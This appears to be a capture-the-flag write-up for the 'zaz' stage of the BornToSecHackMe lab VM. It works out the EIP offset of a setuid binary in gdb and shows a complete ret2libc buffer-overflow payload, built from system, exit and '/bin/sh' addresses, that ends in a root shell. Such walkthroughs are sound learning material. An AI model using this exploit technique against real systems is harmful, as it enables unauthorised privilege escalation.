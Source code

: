 # zaz

```shell
peer-ThinkBook-14-G2-ITL# ls
ft_root  laurie  laurie@borntosec.net  lmezard	LOOKATME  thor	zaz
peer-ThinkBook-14-G2-ITL# cd zaz
peer-ThinkBook-14-G2-ITL# ls
exploit_me  mail
peer-ThinkBook-14-G2-ITL# file exploit_me 
exploit_me: setuid, setgid ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 2.6.24, BuildID[sha1]=f8e25724c3216a8d8cc43b894b58f2b87e9139cd, not stripped
```

We find an executable and get flashbacks to rainfall/override.

[HexRays](https://dogbolt.org/) decompiles it to a readable file: exploit_me.c.

Let's execute it using gdb with a [buffer overflow pattern](https://wiremask.eu/tools/buffer-overflow-pattern-generator/) of size 200 to determine the offset of the eip.
```shell
peer-ThinkBook-14-G2-ITL# gdb -q exploit_me 
Reading symbols from exploit_me...
(No debugging symbols found in exploit_me)
(gdb) r Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag
[...]

Program received signal SIGSEGV, Segmentation fault.
0x37654136 in ?? ()
```
Our trusted website tells us the offset is 140, which we would've already known if we'd looked at the ghidra instead of hexrays.

Ret2Libc:
```shell
(gdb) p system
$1 = {<text variable, no debug info>} 0xb7e6b060 <system>
(gdb) p exit
$2 = {<text variable, no debug info>} 0xb7e5ebe0 <exit>
(gdb) info proc map
[...]
(gdb) find 0xb7e2c000, 0xb7fd2000, "/bin/sh"
0xb7f8cc58
1 pattern found.
```

### Putting everything together:

```shell
zaz@BornToSecHackMe:~$ ./exploit_me $(python -c 'print 140 * "A" + "\x60\xb0\xe6\xb7" + "\xe0\xeb\xe5\xb7" + "\x58\xcc\xf8\xb7"')
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA �����X���
# whoami
root
```

[[Go back to writeup2.md](../writeup2.md)]]
